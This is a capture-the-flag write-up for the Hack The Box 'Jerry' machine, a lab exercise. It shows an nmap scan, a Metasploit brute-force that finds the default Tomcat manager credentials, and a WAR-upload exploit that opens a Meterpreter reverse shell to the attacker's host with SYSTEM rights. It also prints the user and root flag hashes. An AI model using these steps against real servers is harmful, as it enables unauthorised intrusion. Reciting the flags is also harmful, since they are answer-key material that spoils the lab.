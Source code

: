 # HTB: Jerry

**Operating System:** Windows  
**Difficulty:** Easy  
**Author:** mrh4sh  
**Date of Engagement:** 2025-07-30

---

## Engagement Overview

**Target IP:** 10.10.10.95 
**Local IP:** 10.10.16.9  
**Objective Summary:**
- Exploit Apache Tomcat
- Gain a `NT Authority\SYSTEM` shell
- Fully compromising the target

---

## Initial Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV -A -o nmap.txt 10.10.10.95
```

**Result Summary:**
```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
```

### Host Info

```
Microsoft Windows Server 2012 R2
```

---

## Methodologies

### Initial Access

**Metasploit**
- Found credentials:
```
msf6 auxiliary(scanner/http/tomcat_mgr_login run
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

**Tools & Payloads Used:**
- Metasploit

**Penetration Result:**  
```
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit
[*] Started reverse TCP handler on 10.10.16.9:4444 
[*] Retrieving session ID and CSRF token...
[*] Uploading and deploying bJKTyJ1deM...
[*] Executing bJKTyJ1deM...
[*] Sending stage (58073 bytes) to 10.10.10.95
[*] Undeploying bJKTyJ1deM ...
[*] Undeployed at /manager/html/undeploy
[*] Meterpreter session 1 opened (10.10.16.9:4444 -> 10.10.10.95:49192) at 2025-07-30 15:56:40 -0400

meterpreter > getuid
Server username: JERRY$
meterpreter > 
```

---

## Privilege Escalation

Not applicable. Initial exploit yielded SYSTEM-level shell.

```
meterpreter > shell
Process 1 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
---

## House Cleaning

- No post-exploitation persistence left on target
- Exploit did not require uploads beyond shell payload

---

## Post-Exploitation

### Credentials & Flags

- `user.txt`: `7004dbcef0f854e0fb401875f26ebd00`  
- `root.txt`: `b6b9cccdf6904e9ffdb0110122a50a43`

---

## Tools Utilized

* nmap
* metasploit

---

## Key Takeaways

* Enumerating Tomcat credentials via Metasploit
* Abusing Tomcat WAR uploads via Metasploit